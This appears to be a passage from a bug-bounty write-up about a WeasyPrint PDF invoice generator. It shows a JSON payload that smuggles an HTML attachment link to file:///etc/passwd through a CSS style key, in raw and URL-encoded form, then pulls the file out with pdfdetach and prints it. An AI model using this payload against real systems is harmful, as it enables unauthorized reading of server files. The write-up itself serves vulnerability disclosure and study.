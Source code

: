 tried to embed an image and i got response from the server which say the user agent `weasyprint 44`

\[WEASYPRINT\]

after reading the github repository to get an idea how `weasyprint` work i found that, they didn't support javascript at all so the attack vector using javascript is gone, and also for render the `SVG` they using an `CairoSVG` which is already use `defusedxml` so we cannot do an `XXE` too here.

struggling around and found that we able to abuse the feature from `weasypdf`

\[FEATURE\]

that feature is allow us to embed any file to the pdf, so i try to embed /etc/passwd using this payload :

    {
      "companyName": "Hackerone",
      "email": "administrator@hackerone.com",
      "invoiceNumber": "1337",
      "date": "1337-1337-01",
      "items": [
        [
          "1",
          "",
          "",
          "10"
        ]
      ],
      "styles": {
        "body": {
          "background-color": "white",
          "<script/style><a rel='attachment' href='file:///etc/passwd'>file<script/a><style>*{background-image": "url('')"
        }
      }
    }
    
    URL ENCODED:
    %7B%0D%0A++%22companyName%22%3A+%22Hackerone%22%2C%0D%0A++%22email%22%3A+%22administrator%40hackerone.com%22%2C%0D%0A++%22invoiceNumber%22%3A+%221337%22%2C%0D%0A++%22date%22%3A+%221337-1337-01%22%2C%0D%0A++%22items%22%3A+%5B%0D%0A++++%5B%0D%0A++++++%221%22%2C%0D%0A++++++%22%22%2C%0D%0A++++++%22%22%2C%0D%0A++++++%2210%22%0D%0A++++%5D%0D%0A++%5D%2C%0D%0A++%22styles%22%3A+%7B%0D%0A++++%22body%22%3A+%7B%0D%0A++++++%22background-color%22%3A+%22white%22%2C%0D%0A++++++%22%3Cscript%2Fstyle%3E%3Ca+rel%3D%27attachment%27+href%3D%27file%3A%2F%2F%2Fetc%2Fpasswd%27%3Efile%3Cscript%2Fa%3E%3Cstyle%3E%2A%7Bbackground-image%22%3A+%22url%28%27%27%29%22%0D%0A++++%7D%0D%0A++%7D%0D%0A%7D

and using `pdfdetach` to extract the embeded file from the PDF.

    ➜  dump pdfdetach -saveall etcpasswd.pdf
    ➜  dump cat passwd
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin